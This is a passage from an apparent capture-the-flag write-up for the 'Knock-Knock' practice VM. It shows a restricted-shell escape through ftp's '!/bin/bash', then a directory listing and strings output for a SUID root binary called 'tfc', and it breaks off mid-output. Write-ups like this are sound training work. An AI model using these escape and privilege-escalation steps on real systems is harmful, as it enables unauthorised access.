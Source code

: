 But thanks to [Persistence](https://knapsy.github.io/blog/2014/10/05/persistence-vm-writeup/), I've learned couple ways of bypassing that, so straight away, I used the same technique as I did in Persistence.

```
jason@knockknock:~$ ftp
ftp> !/bin/bash
jason@knockknock:~$ echo $SHELL
/bin/rbash
jason@knockknock:~$ export SHELL="/bin/bash"
jason@knockknock:~$ echo $SHELL
/bin/bash
```

Core dump(ster) diving
----------------------

Since now we have a normal shell, we can do regular stuff. First thing that stands out is ```tfc``` binary with SUID bit set! We may be able to get our root through there.

```
jason@knockknock:~$ ls -al
total 32
drwxr-xr-x 2 jason jason 4096 Oct 14 12:25 .
drwxr-xr-x 3 root  root  4096 Sep 24 21:03 ..
lrwxrwxrwx 1 jason jason    9 Sep 26 09:50 .bash_history -> /dev/null
-rw-r--r-- 1 jason jason  220 Sep 24 21:03 .bash_logout
-rw-r--r-- 1 jason jason 3398 Sep 25 21:58 .bashrc
-rw-r--r-- 1 jason jason  675 Sep 24 21:03 .profile
-rwsr-xr-x 1 root  jason 7457 Oct 11 18:35 tfc
-rw------- 1 jason jason 3204 Oct 14 05:31 .viminfo
```

Let's see what it is.

```
jason@knockknock:~$ strings tfc 
/lib/ld-linux.so.2
lWGI
__gmon_start__
libc.so.6
_IO_stdin_used
strrchr
puts
printf
read
close
open
strcmp
__libc_start_main
write
__xstat
__lxstat
GLIBC_2.0
PTRhp
QVh$
[^_]
	Tiny File Crypter - 1.0
Usage: ./tfc <filein.tfc> <fileout.tfc>
>> Filenames need a .tfc extension
>> No symbolic links!
>> Failed to open input file
>> Failed to create the output file
>> File crypted, goodbye!
;*2$"
_______________________________  
\__    ___/\_   _____/\_   ___ \ 
```